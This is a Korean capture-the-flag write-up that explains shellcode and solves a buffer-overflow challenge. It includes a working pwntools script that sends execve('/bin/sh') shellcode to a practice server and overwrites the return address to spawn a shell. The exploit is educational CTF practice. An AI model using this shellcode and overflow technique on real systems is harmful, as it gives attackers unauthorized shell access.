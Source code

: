 ## 사전지식    
쉘코드. 
음..왠만한 사람들은 다 알거라 생각하지만    
나같은 늅늅이들은 그런거 모르니 간단하게 설명하자면   
시스템의 특정 명령을 실행하는 작은 사이즈의 프로그램(코드)다.   
보통 메모리에 쉘코드를 넣고 ret에 쉘코드가 저장된 메모리의 주소로 덮어 씌워 쉘을 실행시킨다.   
주로 관리자 권한의 쉘을 얻는 용도.   
구글링하면 다-나온다.   

## 풀이   
일단 아이다로 까보면 read함수를 통해 표준입력(0)으로 0x32만큼 입력받고   
다시 gets로 0x14크기의 s에 입력받도록 하는 코드다.   
이때 read함수를 보면 name이라는 전역변수에 저장하는 것을 알 수 있는데,    
다른 걸 살펴봐도 마땅히 flag을 얻을 만한 방법이 안보이니까...    
첫 번째 입력 때 name에 쉘코드를 입력하고,   
두 번째 입력 받을 때 ret까지 BOF를 일으키고 name의 주소를 넣어서 name안에 있는 쉘코드를 실행하게 하면 될 것이다.   
근데 뉸뉸이들은 '에 ret까지 어떻게 BOF를 일으켜요?'할 것이다.   
ida를 자세히 살펴보면 s의 크기는 0x14인걸 알수 있으니 0x14에 sfp크기, 4byte크기만큼   
더미값을 넣어서 BOF를 일으키면 된다.   


코드보자!    
```
from pwn import *
p=remote("ctf.j0n9hyun.xyz", 3003)
p.recvuntil("Name : ")
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
p.sendline(shellcode)
p.recvuntil("input : ")
payload = "A"*24
payload += p32(0x804A060)
p.sendline(payload)
p.interactive()
```  


